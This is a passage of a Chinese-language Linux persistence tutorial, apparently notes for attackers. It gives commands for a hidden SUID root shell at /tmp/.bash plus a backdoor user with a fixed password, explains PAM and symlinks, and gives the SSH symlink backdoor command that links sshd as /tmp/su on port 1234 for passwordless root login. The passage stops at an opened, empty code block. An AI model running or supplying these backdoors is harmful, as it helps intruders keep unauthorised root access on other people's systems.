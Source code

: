 1. 找到 `bash` 文件

   `whereis bash`

2. 复制到普通用户环境能接触到的目录下

   `cp /bin/bash /tmp/.bash`

3. 赋权

   `chmod 4755 /tmp/.bash` 或 `chmod +s /tmp/.bash`

4. 创建普通用户

   ```useradd -p `openssl passwd -1 -salt 'salt' 123456` jack ```

5.  使用普通用户登录，运行 `/tmp/.bash`，这个 `bash` 就是 `root` 权限的



#### PAM 软连接维持

##### PAM 介绍

`PAM` 认证一般遵循这样的顺序： `Service(服务)` --> `PAM(配置文件)` --> `pam_*.so`。

`PAM` 认证首先要确定哪一项服务，然后加载相应的 `PAM` 的配置文件（位于 `/etc/pam.d` 下），最后调用认证文件（位于`/lib/security`下）进行安全认证，用户访问服务器的时候，服务器的某一个服务程序把用户的请求发送到 `PAM` 模块进行认证。 对于不同的服务器应用程序所对应的 `PAM` 模块也是不同的。

如果想查看某个程序是否支持 `PAM` 使用 `ls /etc/pam.d`。



##### 软连接介绍

软连接称之为符号链接（Symbolic Link），也叫软连接。类似于 Windows 的快捷方式。

软连接实际上是一个特殊的文本文件，其中包含有另一个文件的位置信息。

> 创建一个 `test.txt` 文件用来演示
>
> `touch test.txt`
>
> 
>
> 创建软连接
>
> `ln -fs /var/www/html/1.txt test.txt`  
>
> 
>
> 查看软连接（`text.txt` 指向了 `/var/www/html/1.txt`）
>
> `cat test.txt`

##### SSH  软连接后门原理

`SSH` 软连接是 `Linux` 下经典的权限维持方法之一。

其中涉及到一个比较重要的模块 `pam_rootok.so`。 这个模块的功能是**如果用户`UID`时`0`，则返回成功**，当`/etc/pam.d/ssh` 文件配置了 `auth sufficient pam_rootok.so` 时，**可以不需要密码登录**。

当在被控端执行命令 `ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=1234` 建立 `shd` 的软连接后门， `PAM` 认证时就会根据软连接名字到 `/etc/pam.d` 目录下寻找对应的 `PAM` 认证文件，由于软连接的文件名为 `su`， 所以 `SSH` 的认证文件就被替换成了 `/etc/pam.d/su`， 而 `su` 中默认配置了 `auth sufficient pam_rootok.so`， 从而导致 `SSH` 可以免密登录。

##### 软连接维持权限实现
   ```